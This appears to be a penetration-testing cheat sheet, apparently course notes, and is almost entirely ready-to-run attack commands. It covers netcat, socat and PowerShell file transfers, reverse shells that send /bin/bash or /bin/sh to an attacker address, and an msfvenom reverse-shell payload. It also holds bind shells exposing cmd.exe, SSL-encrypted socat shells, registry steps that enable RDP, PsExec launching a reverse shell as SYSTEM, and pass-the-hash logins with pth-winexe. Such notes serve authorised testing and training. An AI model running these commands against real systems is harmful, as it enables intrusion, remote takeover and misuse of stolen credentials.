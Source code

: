## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
	`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
	`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
	`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
	`socat TCP4:{ip-address}:443 file:passwords.txt,create`

- powershell 
	- `Set-ExecutionPolicy Unrestricted` must be applied beforehand
	- Download wget.exe from a websever (such as a SimpleHTTPServer) :
	 `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{ip-address}/wget.exe','C:\Users\offsec\Desktop\wget.exe')" `

- SMB
	- set up a SMB server on Kali with a share called Tools in the wd
	`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .`
	- copy a file from Kali to Windows
	`copy \\{ip-address}\tools\file.ext file.ext`
	- copy a file from Windows to Kali
	`copy file.ext \\{ip-address}\tools\file.ext`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`
- netcat without `-e` or `-c` on victim
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip-address} 1234 >/tmp/f`
- msfvenom to create reverse shell binaries
	- windows: `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f exe -o reverse.exe`
	- linux: 
	- attacker can set up a listener with netcat of metasploit's multi/handler

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
- socat listener utilizing the cert
	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
- socat SSL connection to listener
	- `socat - OPENSSL:{ip-address}:443,verify=0`

## Other Windows Shell-like options
- RDP
	- Create a regfile.reg file with `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalService` inside
	- `"fDenyTSConnections"=dword:00000000"`
	- `reg import regfile.reg`
	- `net start "termservice"`
	- `sc config termservice start= auto`
	- `net start termservice`
- [PSExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec): a light-weight telnet-replacement that lets you execute processes on other systems
	- `.\PsExec64.exe -accepteula -i -s C:\path\to\reverse.exe` (see msfvenom to create reverse shell binaries)
- [Winexe](https://tools.kali.org/maintaining-access/winexe): remotely execute commands on Windows from a Linux machine
	- requires creds. If the creds you have are admin, you can use the --system option to spawn a system shell.
	- `winexe -U '{user}%{password}' //{ip-address} cmd.exe`
- Pth-winexe: pass-the-hash version of Winexe
	- `pth-winexe -U '{user}%{LM-hash}:{NTLM-hash}' //{ip-address} cmd.exe`